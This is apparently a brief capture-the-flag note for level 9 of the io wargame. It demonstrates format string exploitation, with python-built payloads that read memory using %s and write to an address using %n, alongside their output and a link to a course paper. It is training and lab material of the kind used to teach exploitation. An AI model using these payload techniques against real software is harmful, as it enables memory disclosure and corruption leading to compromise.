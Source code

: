 good paper: https://crypto.stanford.edu/cs155old/cs155-spring08/papers/formatstring-1.2.pdf

To read arbitrary memory (say from the environment variable area):
```
level9@io:/tmp/maxblevelztesting9$ /levels/level09 $(python -c "print '\xa0\xfe\xff\xbfAAA1_%08x.%08x.%08x.%s'")
����AAA1_bffffe20.000003ff.00000000._PATH=/usr/local/radare/lib/level9@io:/tmp/maxblevelztesting9$
```

To write arbitrarily to memory
```
level9@io:/tmp/maxblevelztesting9$ /levels/level09 $(python -c "print '\xa0\xfe\xff\xbfAAA1_%08x.%08x.%08x.%n'")
```
will write the integer `24` to 0xbffffea0 (where `24` is the number of bytes written by printf)
